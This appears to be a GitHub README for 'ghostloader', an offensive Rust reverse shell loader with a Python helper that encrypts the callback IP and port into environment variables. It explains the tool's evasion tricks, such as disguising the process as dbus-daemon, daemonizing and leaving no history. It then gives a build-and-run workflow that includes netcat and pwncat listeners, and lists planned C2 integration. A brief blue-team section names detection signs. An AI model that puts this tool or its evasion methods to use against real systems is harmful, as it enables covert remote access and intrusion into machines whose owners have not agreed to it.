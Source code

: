 # 👻 ghostloader


> 🔐 Runtime-only, encrypted reverse shell loader in Rust – with zero hardcoded IPs, keys, or ports. Payload data is provided securely via AES-GCM encrypted environment variables.

---

## 🎯 Project Goal

**ghostloader** is a hardened reverse shell launcher written in Rust, designed to avoid detection by:

- Not storing payloads in binaries
- Not using hardcoded IPs, ports, or cryptographic material
- Using AES-GCM encryption for runtime-loaded payloads
- Generating the decryption key from the host's UID + hostname
- Running in the background via daemonization (`fork()` + `setsid`)
- Obfuscating its process name (e.g., as `dbus-daemon`)
- Avoiding `.bash_history` or file system persistence

---

## 🧠 Concept Overview

The reverse shell destination (`IP + Port`) is encrypted with AES-GCM using:

- A **32-byte user-provided AES key**
- Combined with the current **UID** and **hostname**
- Encrypted data is stored in environment variables at runtime

> This allows **per-session or per-target shells** without needing to rebuild the binary. 

A Python helper script creates these environment variables for you.

---

## ⚠️ Blue Team Testing Notice

This project is intended for:

- **Blue Teams and Incident Response** to test defensive visibility
- **Red Team Simulations** in lab environments
- **CTF training** where payload customization is required

🚫 Do **not** use this tool in unauthorized environments.  
✅ Always have written permission when testing.

---

## 📦 Features

- ✅ No hardcoded secrets (IP, key, port, etc.)
- ✅ Random IV + AAD for each session (optional override)
- ✅ AES-GCM 256-bit encryption with host-specific derivation
- ✅ Built-in retries + jitter for resilience
- ✅ Clean Rust async + 'tokio' implementation
- ✅ `zeroize` on decrypted buffers and keys
- ✅ Fork/daemon shell, no direct parent
- ✅ Obfuscated process name (`dbus-daemon` or custom)
- ⏳ Planned: `memfd`, unlink-after-open, pipe-only, anti-debugging

---

## ⚙️ How It Works

1. Generate an **AES key**:
```bash
   export AES_KEY=$(openssl rand -hex 32)
   ```
2. Use the Python helper to create the encrypted payload:
```python
   python3 ghostloader.py 4444 --key "$AES_KEY"
```
3. Export the resulting environment variables:
```text
	export AES_KEY=...
	export ENC_PAYLOAD=...
	export ENC_IV=...
	export ENC_AAD=...
```
4. Run the ghostloader binary:
```text
	./ghostloader
```

### If decryption succeeds, the binary will:
- Spawn an interactive /bin/sh via reverse connection
- Retry up to 20x if offline (with jitter)
- Exit cleanly and securely if decryption or connection fails

# 🐍 Python: ghostloader.py
Helper to encrypt IP+port payloads for injection via env vars.

✅ Example:
```text
export AES_KEY=$(openssl rand -hex 32)
python3 ghostloader.py 4444 --loopback --key "$AES_KEY"
```

📦 Output:
```bash
Hostname: kali
UID: 1000

# --- Oneliner ENV export ---
export AES_KEY=... && export ENC_PAYLOAD=... && export ENC_IV=... && export ENC_AAD=...
# ----------------------------
```

| Argument     | Description                                |
| ------------ | ------------------------------------------ |
| `port`       | Port to connect back to (required)         |
| `ip`         | Optional IP (default: detected via `tun0`) |
| `--loopback` | Use `127.0.0.1` instead of external IP     |
| `--key`      | Required AES key (32-byte hex)             |
| `--iv`       | Optional static IV (12-byte hex)           |
| `--aad`      | Optional static AAD (8-byte hex)           |

# 🦀 Rust Binary: ghostloader
## 🔧 Build instructions

🦀 Compile with Cargo (optimized)
```text
git clone https://github.com/y0uall/ghostloader.git
cd ghostloader

# Build optimized binary
cargo build --release
strip target/release/ghostloader
```

## 🚀 Sample Workflow

```bash
# 1. Generate AES key
export AES_KEY=$(openssl rand -hex 32)

# 2. Encrypt the target IP + port
# ➤ If --loopback is used, the IP is set to 127.0.0.1
# ➤ If no IP is given, the script auto-detects your VPN IP via interface 'tun0'
python3 ghostloader.py 4444 --key "$AES_KEY"

# 3. Export the generated values (copied from Python output)
export AES_KEY=... && export ENC_PAYLOAD=... && export ENC_IV=... && export ENC_AAD=...

# 4. Start listener on your machine:
nc -lvnp 4444
pwncat-cs -lp 4444

# 5. Launch the ghostloader
./ghostloader
```

# 🔬 Detection Opportunities (for Blue Teams)

```text
- Suspicious parentless sh -i shells
- Connections to known C2 ports shortly after binary execution
- Reverse shell spawning from processes named dbus-daemon
- AES_KEY, ENC_* environment variables (from /proc/PID/environ)
- Short-lived child processes with dup2() on socket FDs
```

## 📁 Project Structure

```bash
.
├── ghostloader.rs        # Rust reverse shell loader (hardened)
├── ghostloader.py        # Python encryption helper
├── README.md             # This file
```

#❗Disclaimer

This project is provided for educational and research purposes only.
Use it only in authorized environments with proper permissions.
The authors are not responsible for misuse.

## 🧪 Future Ideas

- memfd_create and in-memory execution
- Encrypted config via pipe() or stdin
- Secure auto-clean of parent shell env
- Randomized timing logic
- Integration with C2 frameworks

## 🧠 Name Origin

- ghostloader = ephemeral, invisible, in-memory loader
- It's quiet, leaves no trace, and vanishes after use. 👻

Made with ❤️ for learning, testing, and advancing defense.